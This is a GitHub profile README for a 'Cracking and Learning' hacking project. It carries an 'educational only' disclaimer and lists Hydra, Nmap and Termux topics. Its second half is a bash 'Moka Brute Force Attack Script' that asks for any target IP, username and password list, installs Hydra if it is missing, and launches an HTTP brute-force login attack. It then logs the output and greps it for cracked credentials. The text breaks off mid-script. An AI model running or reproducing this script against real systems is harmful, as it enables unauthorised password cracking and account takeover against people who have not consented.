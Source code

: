- 👋 Hi, I’m @Typist881
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
Typist881/Typist881 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
typist 881/ im looking cracking members
# 🧠 Cracking and Learning 🔓  
> **"Hack the knowledge, not the system."**  
> *By Nomi G — powered by Narmeen, the Cracking Queen 👑*

---

## 📚 About This Project

**Cracking and Learning** is a personal and public project created to explore the world of:

- 🛡️ Ethical Hacking
- 🧠 Cybersecurity Skills
- 🔐 Password Cracking (for education only)
- ⚒️ Termux + VPN Setup
- 🧪 Practice Tools and Labs

> ⚠️ This repo is for **educational purposes only**. No illegal use is supported.

---

## ⚔️ Tools & Topics Covered

- Hydra Brute Force 🔓  
- Nmap Network Scanning 🌐  
- ProtonVPN & Termux Setup 📲  
- Custom Shell Scripts 💻  
- Web + WiFi Recon Concepts 🛰️  
- Beginner Labs for Practicing Hacking 🧪

---

## 🚀 Getting Started

```bash
# Clone this repository
git clone https://github.com/NomiG/Cracking-And-Learning.git

# Move into the project directory
cd Cracking-And-Learning

# Start exploring folders and guides
📁 Hydra-Labs/
📁 Nmap-Scans/
📁 Scripts/
📁 VPN-Setup/
📁 Guides/
📄 README.md
📄 Getting_Started.txt
#!/bin/bash
# 🌐 Moka Attack Script by Nomi G — For Educational Use Only

clear
echo "======================================"
echo "    🔥 MOKA BRUTE FORCE ATTACK 🔥     "
echo "======================================"
echo

# User Input
read -p "🎯 Enter Target IP: " target
read -p "👤 Enter Username: " user
read -p "📂 Enter Path to Password List: " passlist

# Check if Hydra is installed
if ! command -v hydra &> /dev/null; then
    echo "❌ Hydra is not installed. Installing now..."
    pkg install hydra -y || apt install hydra -y
fi

# Attack Begins
echo
echo "🚀 Starting brute force on $target with user '$user'..."
echo

hydra -l "$user" -P "$passlist" "$target" http-get | tee result.log

# Check result
if grep -q "login:" result.log; then
    echo
    echo "✅ Password Cracked!"
    grep "login:" result.log
else
    echo
    echo "❌ No valid password found."
